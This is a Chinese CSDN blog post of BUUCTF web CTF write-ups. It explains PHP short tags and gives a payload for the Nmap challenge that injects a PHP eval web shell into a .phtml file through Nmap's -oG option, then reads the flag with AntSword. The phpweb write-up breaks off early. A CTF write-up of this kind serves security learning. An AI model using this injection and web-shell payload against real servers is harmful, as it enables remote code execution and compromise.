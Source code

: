 

# BUUCTF__web题解合集（七）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/108055984](https://blog.csdn.net/TM_1024/article/details/108055984)

## 前言

*   天天盼望开学
*   哭，电脑重启没保存，写的3篇直接没了。。。

## 题目

### 1、[网鼎杯 2020 朱雀组]Nmap

```
<?php  echo “1111111111111 ”;  ?>

<? echo “222222222222 ”;  ?>

<% echo“333333333333 ”;  %>
(注释：这种写法在php配置中默认关闭了的，所以不能输出一行3.如果要正常输出，需要配置php.ini文件。在配置文件中找到asp_tags=off ,将off改为on。改动配置文件后需要重启apache。)

<script language=”php”> echo“444444444444 <br>” </script> 
```

*   也就是说，在 Liunx 下开启了 `short_open_tag = On` 就能使用上面第2种标签方式。很显然，题目就是开启了的。

*   但同时文件名也有个php，可以用`phtml`在文件上传的时候经常用到。

*   所以，我们的payload就是

    ```
    ' <? eval($_POST["a"]);?> -oG 1.phtml ' 
    ```

*   上传，蚁剑连接，运行虚拟终端执行`cat /flag`成功解题。

### 2、 [网鼎杯 2020 朱雀组]phpweb

*   重写。。。真是***。

*   首先打开它会自动刷新，抓包能看到两参数，形式是一个函数名一个函数参数，可以获取当前时间，同时页面也有当前时间的回显。
    ![在这里插入图片描述](img/8b8a2dcd417ef0802b95e813a16bbf98.png)
